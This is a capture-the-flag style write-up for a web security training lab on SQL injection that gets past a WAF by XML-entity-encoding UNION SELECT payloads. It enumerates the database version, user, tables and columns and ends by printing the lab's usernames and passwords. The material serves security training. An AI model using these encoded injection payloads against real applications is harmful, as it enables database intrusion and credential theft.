


# Lab: SQL injection with filter bypass via XML encoding

URL: https://0ab100e403aed28c836ac93d00180037.web-security-academy.net/


URL: https://0ab100e403aed28c836ac93d00180037.web-security-academy.net/product?productId=4


# Discovering the API:

URL: https://0ab100e403aed28c836ac93d00180037.web-security-academy.net/product/stock


# Preparation and WAF bypass:


<br>


<br>


Sample Payload:

```
&#x34;&#x20;&#x20;&#x6f;&#x72;&#x20;&#x31;&#x3d;&#x31;&#x2d;&#x2d;&#x20;&#x2d;
```


# Exploitation:

## Finding the NULLs:

Payload:

```
1 UNION SELECT NULL-- -

&#49;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#78;&#85;&#76;&#76;&#45;&#45;&#32;&#45;
```


## Finding the Strings:

Payload:

```
1 UNION SELECT '123'-- -

&#49;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&apos;&#49;&#50;&#51;&apos;&#45;&#45;&#32;&#45;
```


## Getting the version:

Payload:

```
1 UNION SELECT VERSION()-- -

&#49;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#86;&#69;&#82;&#83;&#73;&#79;&#78;&#40;&#41;&#45;&#45;&#32;&#45;
```



## Getting the USER:

```
69 UNION SELECT current_user-- -

&#54;&#57;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#99;&#117;&#114;&#114;&#101;&#110;&#116;&#95;&#117;&#115;&#101;&#114;&#45;&#45;&#32;&#45;
```



## Getting the DB:

```
69 UNION SELECT current_database()-- -

&#54;&#57;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#99;&#117;&#114;&#114;&#101;&#110;&#116;&#95;&#100;&#97;&#116;&#97;&#98;&#97;&#115;&#101;&#40;&#41;&#45;&#45;&#32;&#45;
```

Res: `academy_labs`


## Get all tables:

Payload:

```
69 UNION SELECT table_name from information_schema.tables-- -

&#54;&#57;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#116;&#97;&#98;&#108;&#101;&#95;&#110;&#97;&#109;&#101;&#32;&#102;&#114;&#111;&#109;&#32;&#105;&#110;&#102;&#111;&#114;&#109;&#97;&#116;&#105;&#111;&#110;&#95;&#115;&#99;&#104;&#101;&#109;&#97;&#46;&#116;&#97;&#98;&#108;&#101;&#115;&#45;&#45;&#32;&#45;
```


<br>


## Get columns from USERS table:

Payload:

```
69 UNION SELECT column_name from information_schema.columns where table_name='users'-- -

&#54;&#57;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#99;&#111;&#108;&#117;&#109;&#110;&#95;&#110;&#97;&#109;&#101;&#32;&#102;&#114;&#111;&#109;&#32;&#105;&#110;&#102;&#111;&#114;&#109;&#97;&#116;&#105;&#111;&#110;&#95;&#115;&#99;&#104;&#101;&#109;&#97;&#46;&#99;&#111;&#108;&#117;&#109;&#110;&#115;&#32;&#119;&#104;&#101;&#114;&#101;&#32;&#116;&#97;&#98;&#108;&#101;&#95;&#110;&#97;&#109;&#101;&#61;&apos;&#117;&#115;&#101;&#114;&#115;&apos;&#45;&#45;&#32;&#45;
```


## Globing the username and password:

Payload:

```
69 UNION SELECT username||'-'||password from users-- -

&#54;&#57;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#124;&#124;&apos;&#45;&apos;&#124;&#124;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#32;&#102;&#114;&#111;&#109;&#32;&#117;&#115;&#101;&#114;&#115;&#45;&#45;&#32;&#45;
```


```
carlos-khi6rjmb5qfy167lpkn8
wiener-l33xiqxedg8yjld0rrxt
administrator-nhew0agi0v2im4j6jxho
```

# Automation:

